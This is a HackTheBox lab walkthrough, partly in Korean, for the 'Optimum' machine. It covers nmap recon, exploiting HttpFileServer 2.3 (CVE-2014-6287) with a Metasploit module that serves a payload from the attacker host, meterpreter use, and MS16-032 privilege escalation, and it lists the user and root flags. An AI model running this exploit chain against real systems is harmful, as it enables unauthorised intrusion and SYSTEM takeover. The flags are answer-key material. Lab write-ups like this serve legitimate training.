








# HackTheBox Walkthrough - Machine: Optimum

**Target IP**: 10.129.19.252  
**Difficulty**: Easy  
**Objective**: Exploit HttpFileServer 2.3 (CVE-2014-6287) and escalate privileges to SYSTEM.

---

## 🧭 Task 1: Which version of HttpFileServer is running on TCP port 80?

```bash
nmap -sV -sC -oA nmap/Optimum 10.129.19.252
```


결과:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
```

### ✅ Answer: `2.3`

---

## 🐞 Task 2: What is the 2014 CVE ID for a remote code execution vulnerability in the findMacroMarker function in HttpFileServer 2.3 version?

- Google 검색: `hfs 2.3 findMacroMarker vulnerability site:cve.mitre.org`
- CVE 페이지: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6287  


### ✅ Answer: `CVE-2014-6287`

---

## 👤 Task 3: What user is the webserver running as?



```bash
msfconsole
search HFS 2.3
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS 10.129.19.252
set LHOST 10.10.14.156
set SRVHOST 10.10.14.156
run
```

Exploit 성공 후:


```bash
meterpreter > getuid
```

결과:
```
Server username: kostas
```

### ✅ Answer: `kostas`

---

## 📄 Task 4: Submit the user flag

```bash
meterpreter > cd Desktop
meterpreter > cat user.txt
```


결과:
```
a8c34f2075cb73ab5b880a41f791d2ca
```

### ✅ Answer: `a8c34f2075cb73ab5b880a41f791d2ca`

---

## 🔑 Task 5 (Optional): What is the password for the kostas user?

```bash
meterpreter > sysinfo
```


- OS: Windows Server 2012 R2 x64
- meterpreter는 x86이므로 `migrate` 수행 필요

```bash
meterpreter > ps
meterpreter > migrate <explorer.exe PID>
```

### ✅ Password 추출은 불필요 / 진행상 참고용

---

## 📈 Task 6: Which metasploit reconnaissance module can be used to list possible privilege escalation paths?

```bash
meterpreter > sysinfo
```

- Computer        : OPTIMUM
- OS              : Windows Server 2012 R2 (6.3 Build 9600)
- Architecture    : x64
- Meterpreter     : x86/windows

```bash
ps
migrate 1572
```

```bash
ctrl + z
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```



```bash
run
```


### ✅ Answer: `local_exploit_suggester`

---

## 👑 Submit Root Flag

```bash
meterpreter > cd C:\Users\Administrator\Desktop
meterpreter > cat root.txt
```


결과:
```
1d7bd5edbe34d508c334bb28f5ab85ef
```

### ✅ Answer: `1d7bd5edbe34d508c334bb28f5ab85ef`

---
